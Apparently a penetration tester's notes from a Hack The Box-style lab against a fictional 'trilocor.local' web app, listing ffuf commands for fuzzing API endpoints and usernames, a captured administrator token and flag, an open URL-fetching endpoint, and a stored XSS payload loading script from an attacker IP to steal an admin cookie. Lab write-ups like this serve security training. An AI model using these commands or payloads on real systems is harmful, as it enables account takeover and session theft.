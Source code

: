 **Login**
- Username: htbtest
	- Password: password
- Ran sqlmap on login fields (nothing)

**API**:
- Fuzzed for api endpoints (got `/admin` and `/tokens`)
	-` ffuf -w common-api-endpoints-mazen160.txt:FUZZ -u 'http://www.trilocor.local:9000/api/tokens/FUZZ' -X POST -d '{"uid":"2","username":"matt","token":"2846e075-8142-49d1-8cb2-fdf8f68a9df4"}' -H 'Content-Type: application/json'`
- `/api/admin` response: 
	- `"message":"You must supply your API token."`
- Found another users uid:
	- when going through different uid's, we get a different response at uid = 5, indicating there is only 4 users
	- `ffuf -w xato-net-10-million-usernames.txt:FUZZ -u http://www.trilocor.local:9000/api/tokens -X POST -d '{"uid":"1","username":"FUZZ"}' -H 'Content-Type:application/json' -H 'Cookie: PHPSESSID=82c87olf0ndavfhrr9ps3cc8pd' -fs 51`
		- we find the user administrator with uid 1 and we can get their token
- Administrator token: `f19d77c3-753c-48d6-9430-4d1a09aea67d`
		- we now get their token and the first flag: `3c1ef7f4fd31813e5dbd8b53879ebfe9`
	- With this, we go to /api/admin and get the admins:
		- username: administrator
		- email: administrator@trilocor.local
- Endpoints:
	- /api/admin/list_members
		- uuid: uuid 
	- /api/admin/healthcheck
		- uuid: uuid, url: url.value
		- can send any url and it will go to it
	- /api/admin/add_product
		- uuid: uuid, productName: pname.value, productPrice: pprice.value 
		- Tried SSTI (nothing), SQLi (nothing), XSS (works but cant get anywhere), 
	- /api/projects/edit
	- /api/tokens

change administrators full name to:
```
<script src=http://10.10.14.17/script.js></script>
```
Then submit contact form that includes the source to go to their profile to trigger the xss

**Products API**
- We can place orders, capture the requests, and we can change only the price
	- try xss if all else fails on price to steal cookie from admin
	- SSTI (nothing)
	- SQLi (nothing)

**Pages:**
- Login: http://www.trilocor.local:9000/login
- Forgot Password Field
logging in with invalid anything: Invalid username or password
	Endpoints:
	- /assets/js/pages/dashboard.js
	- /assets/js/demo.js
	- /assets/js/adminlte.js
